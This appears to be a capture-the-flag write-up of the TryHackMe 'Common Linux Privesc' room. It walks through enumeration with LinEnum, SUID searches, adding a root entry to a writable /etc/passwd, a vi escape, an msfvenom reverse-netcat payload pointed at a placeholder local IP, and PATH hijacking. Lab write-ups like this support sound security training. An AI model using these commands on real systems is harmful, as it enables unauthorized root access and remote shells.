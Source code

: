```yaml
---
layout: post
title: Write-Up [THM] Common Linux Privesc
categories: [Write-Ups, TryHackMe]
tags: [TryHackMe, Linux, Bash, Privilege Escalation]
featured-image:  thm/linux-privesc/theme.png
featured-image-alt: Common Linux privesc
---
```


It's a write-up about the room : [Try Hack Me - Room : Common Linux Privesc](https://tryhackme.com/room/commonlinuxprivesc)

# [Task 1] Get Connected

> This room will explore common Linux Privilege Escalation vulnerabilities and techniques, but in order to do that, we'll need to do a few things first!

A basic knowledge of Linux, and how to navigate the Linux file system, is required for this room.

We deploy the instance. 

# [Task 2] Understanding Privesc

![Task 2](/assets/img/thm/linux-privesc/task-2.png)

# [Task 3] Enumeration

![Task 3](/assets/img/thm/linux-privesc/task-3.png)

# [Task 4] - Enumeration

* First, let's SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.
So, `ssh user3@IP_MACHINE` with the password `password`.

* What is the target's hostname?  

We o `hostname` to know the name of the machine. The answer is **polobox**.

* Look at the output of /etc/passwd how many "user[x]" are there on the system?  

We use the command `cat /etc/passwd | grep user` and find **8** users.

* How many available shells are there on the system? 

We download a local copy of LinEnum from [Linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). After that, we start a Python web server to get LinEnum on the target machine with :  

> Using Python 2: python2 -m SimpleHTTPServer   
> Using Python 3: python -m http.server

We get the LinEnum bash file using the command : `wget http://VPN_ADRESS:8000/LinEnum.sh`.  

We find the VPN_ADRESS corresponding to `utun` on the ouptut of the command `ifconfig` on the local machine.  

Make the file executable using the command `chmod +x LinEnum.sh` on the target machine, and execute this one : `./LinEnum.sh`. The output reveals to us : 

```
[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
```
So, there are **4** available shells on the system.

* What is the name of the bash script that is set to run every 5 minutes by cron? 

We search the bash script in the crontab : `cat /etc/crontab`.   
There is this line : `*/5  *    * * * root    /home/user4/Desktop/autoscript.sh`.  
Therefore, the name of the bash script thait is set to run every 5 minutes by cron is **autoscript.sh**. 

* What critical file has had its permissions changed to allow some users to write to it?

The file is **/etc/passwd**.

**Other file** : `linepeas.sh` available on this website [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

# [Task 5] - Abusing SUID/GUID Files

* What is the path of the file in user3's directory that stands out to you?

We use `pwd` and `ls` to know the path of the shell. We find **/home/user3/shell**.
After that we execute the binary `./shell`.

Synbollically : find / -perm -u=s -type f 2>/dev/null  
Numerically : find / -perm -4000 -type f 2>/dev/null


# [Task 6] - Exploiting Writeable /etc/passwd

We swap to user7 with `su user7` and the password `password`.  

* Having read the information above, what direction privilege escalation is this attack?

The direction privilege escalation is **vertical**.

* Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]". What is the hash created by using this command with the salt, "new" and the password "123"?

First, go to the home directory of the user7 : `cd /home/user7`.  
After that, we use : `openssl passwd -1 -salt new 123` and find the hash **$1$new$p7ptkEKU1HnaHpRtzNizS1**.

* Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

We create a new root user account with vi : `vi /etc/passwd` and we add this line :  
`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`.

The answer is `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`.

# [Task 7] - Escaping Vi Editor

We swap to user8 with `su user8` and the password `password`.  

* Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root? `NOPASSWD`

# [Task 8] - Exploiting Crontab

We swap to user4 with `su user4` and the password `password`.  

* What is the flag to specify a payload in msfvenom? `-p`

We create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`. 

* What directory is the "autoscript.sh" under? `/home/user4/Desktop`

# [Task 9] - Exploiting PATH Variable

We swap to user5 with `su user5` and the password `password`.  

* Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?   

We execute the binary `./shell` and this one do the same as **ls** command.

* Now we're inside tmp, let's create an imitation executable. The format for what we want to do is: echo "[whatever command we want to run]" > [name of the executable we're imitating]
What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating. `echo "/bin/bash" > ls`

* Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this? `chmod +x ls`